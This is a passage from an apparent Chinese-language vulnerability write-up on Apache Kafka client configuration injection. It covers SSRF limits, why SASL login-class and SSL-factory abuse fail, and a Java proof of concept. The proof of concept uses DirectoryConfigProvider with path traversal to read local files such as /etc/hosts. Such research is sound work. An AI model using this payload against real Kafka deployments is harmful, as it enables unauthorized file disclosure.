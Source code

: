 综上，kafka配置项可控时可进行SSRF攻击，但是只能发送POST请求，并且消息头只有Authrization头可控,body中只有scope参数可控。

再来解决前面留的两个问题:
1. 既然sasl.login.class和sasl.login.callback.handler.class可以指定,是否可以指定恶意类来加载利用?
   答: 指定的sasl.login.class类名虽然可以通过进行实例化,但是classLoader不可控的情况下没法利用;加上后面指定的sasl.login.class需要强转为`org.apache.kafka.common.security.auth.Login`,所以也没法利用(sasl.login.callback.handler.class类似);
   
![](./images/a13151c2c80c41b5ba111a2c139dcab4.png)

2. sslSocketFactory可否利用?
实例化传入的类时要求该类必须继承自SslEngineFactory，否则类型转换失败抛异常。

## 文件读

POC如下:
```java

public class ProducerConfigInject {
   public static void main(String[] args) {
      Map<String,String> kafkaConfig = new HashMap<>();
      kafkaConfig.put("bootstrap.servers","127.0.0.1:9092");
      kafkaConfig.put("config.providers","enokiytest"); //
      kafkaConfig.put("config.providers.enokiytest.class","org.apache.kafka.common.config.provider.DirectoryConfigProvider");
      kafkaConfig.put("client.id","${enokiytest:..\\..\\..\\..\\..\\..\\tmp:hosts}"); //linux ${enokiytest:/etc:hosts}
      kafkaConfig.put("sasl.jaas.config","org.apache.kafka.common.security.plain.PlainLoginModule required username=\"name\" password=\"password\";");

      Map<String,Object> configs = new HashMap<>(16);
      configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
      configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
      configs.putAll(kafkaConfig);

      //Create the Kafka producer
      KafkaProducer<String, String> producer = new KafkaProducer<>(configs);
      ProducerRecord<String,String> producerRecord= new ProducerRecord<>("fisrt_topic","hello");
      producer.send(producerRecord);
      producer.flush();
      producer.close();
   }
}
```
